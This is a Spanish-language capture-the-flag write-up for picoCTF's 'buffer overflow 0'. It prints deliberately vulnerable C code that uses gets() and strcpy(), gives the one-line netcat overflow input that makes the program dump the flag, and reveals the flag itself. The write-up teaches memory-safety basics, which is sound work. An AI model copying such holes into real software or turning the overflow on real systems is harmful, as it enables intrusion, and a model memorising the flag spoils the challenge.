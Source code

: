 # buffer overflow 0

## Descripción
Rompe la pila.
Empecemos de forma sencilla, ¿puedes desbordar el búfer correcto?
El programa está disponible [aquí](https://artifacts.picoctf.net/c/172/vuln). Puede ver la fuente [aquí](https://artifacts.picoctf.net/c/172/vuln.c). Y conectar con él utilizando:
`nc saturn.picoctf.net 63397`

## Pistas
- ¿Cómo se puede activar la bandera para imprimir?
- Si intentas hacer las cuentas a mano, quizá debas añadir algunos caracteres más. A veces hay cosas que no te esperas
- Ejecute `man gets` y lea la sección BUGS. ¿Cuántos caracteres puede leer realmente el programa?

## Solución
```bash
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow0]
└─$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
                                                                                                                             
┌──(kali㉿kali)-[~/picoctf/b_exploitation/bufferoverflow0]
└─$ nc saturn.picoctf.net 63397 <<< $(python3 -c "print('F'*200)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}
```

## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}

## Notas adicionales
| Comando | Descripción |
|--------|--------|
| gets | Introducción de caracteres y cadenas |
| SIGSEGV | Es la señal enviada a un proceso cuando se hace una referencia a memoria no válida, o fallo de segmentación |

>[!bug]
>**gets**
>Nunca utilice gets(). Debido a que es imposible saber sin conocer los datos de antemano cuántos caracteres leerá gets(), y debido a que gets() continuará almacenando caracteres más allá del final del buffer, su uso es extremadamente peligroso. Se ha utilizado para romper la seguridad informática. Utilice fgets() en su lugar.

## Referencias
[gets(3) - Linux man page](https://linux.die.net/man/3/gets)
[SIGSEGV](https://es.wikipedia.org/wiki/SIGSEGV)